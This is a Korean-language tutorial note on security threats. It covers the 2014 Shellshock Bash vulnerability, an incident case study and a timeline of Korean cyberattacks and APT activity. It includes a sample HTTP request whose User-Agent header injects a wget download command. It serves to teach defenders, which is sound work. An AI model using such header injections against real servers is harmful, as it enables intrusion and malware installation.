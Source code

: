 # 보안 위협 정보 수집

## 보안 위협 이해

### 애플리케이션 취약점

2014년에 발생할 셸 쇼크(CVE-2014-6271, CVE-2014-7169) 취약점에 대해 알아보자.

2014년 9월 사용된 공격 방식은 bash 환경 변수로 저장되는 헤더 항목에 공격 구문을 삽입해 취약한 시스템을 공격하는 방식이었다.

```bash
telnet [ip] 80
GET /cgi-bin/test-cgi
...
User-Agent: (){:;}; wget -O /tmp/tmp # wget 명령을 이용해 다운로드한 파일을 tmp 디렉터리에 tmp 파일명으로 저장한다
```

대부분의 해킹 공격은 취약한 시스템을 공격하는 걸로 끝나지 않고, 자동화된 공격을 통해 취약한 시스템 접근을 확보한 후에 경유 시스템으로 많이 사용된다.

사례를 살펴보면

* 11/4: IDC 서버 이상 발견
  11/3 12:00부터 외부로 불생된 SSH 사전식 대응 공격 확인

* 11/4: 원인 분석 수행(침해사고 분석)
  BashShell 취약점 공격 확인
  악성코드 유입: http:// ... /bbs/skin/zero_vote/cpan_root

* 분석 결과 요약
  11/01: Bash shell 취약점 공격, 악성코드 설치
  11/03: 외부로 SSH 무작위 사전식 대입 공격
  11/04: 사고 인지 후 시스템 분석

많은 경우 관리 허점을 이용하며, 아직도 2006년 발표된 제로보드 취약점이 사용되고 있다.

### 지능형 지속 공격

2013년 3월 20일 국내 언론사 몇 곳의 업무 관련 시스템들이 동시 다발적으로 파괴되는 사태가 발생핬다. 이로 인해 실제로 방송이 중단되기도 했다.

* 2010년 이후 발생된 주요 사이버 공격 사례

  11/3/4 : 청와대, 금융 기관, 네이버 대상 DDoS 공격
  11/4/12 : 농협 전산망 마비
  13/3/20 : 주요 언론사 및 금융기관 전산망 동시 장애
  13/6/25 : 청와대 홈페이지 변조, 언론사 및 정부 전산센터 공격
  14/12/15 : 한국수자력발전 내부 정보 유출 공개

지능형 지속 공격은 처음 공격에서 최종 목표를 실행하기까지 최소 6개월 이상 관리자나 사용자 몰래 활동한다.

